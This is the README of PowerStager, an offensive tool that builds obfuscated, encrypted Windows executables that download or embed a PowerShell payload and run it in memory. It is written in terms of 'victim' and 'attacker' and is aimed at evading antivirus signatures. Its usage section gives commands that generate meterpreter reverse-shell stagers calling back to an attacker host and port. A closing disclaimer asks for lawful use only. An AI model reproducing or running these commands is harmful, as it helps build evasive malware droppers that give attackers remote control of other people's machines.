 PowerStager: This script creates an executable stager that downloads a selected powershell payload.
===================================================================================================

Contact
-------
* Author: z0noxz
* Source: https://github.com/z0noxz/powerstager
* Email: z0noxz@mail.com

Description
-----------
This script creates an executable stager that downloads a selected powershell payload, loads it into memory and executes it using obfuscated EC methods. The script will also encrypt the stager for dynamic signatures and some additional obfuscation.

This enables the actual payload to be executed indirectly without the victim downloading it, only by executing the stager. The attacker can then for example implement evasion techniques on the web server, hosting the payload, instead of in the stager itself.

Additional methods allows the payload to be embedded into the 'stager' and temporarily stored encrypted on disk for memory injection.

Not only are powershell powerful when managing Windows, it's also powerful when exploiting Windows. This script exploits multiple Windows features such as its inherit trust of powershell, interpretation of shorthand syntaxes, code evaluation and more...

How to use
----------

Install it:

	git clone https://github.com/z0noxz/powerstager
	cd powerstager
	sudo ./setup.py install

Generate a meterpreter payload to upload:

	powerstager -t win64 -o out.ps1 -m --lhost 13.37.13.37 --lport 4444 --generate
	powerstager -t win64 -o out.exe -u <url pointing the the uploaded payload>

Generate an embedded meterpreter payload:

	powerstager -t win64 -o out.exe -m --lhost 13.37.13.37 --lport 4444

Generate an embedded custom payload:

	powerstager -t win64 -o out.exe -p input.ps1

## DISCLAIMER:
You shall not misuse this tool to gain unauthorized access. This tool should only be used to expand knowledge, and not for causing malicious or damaging attacks. Performing any attacks without written permission from the owner of the system is illegal.
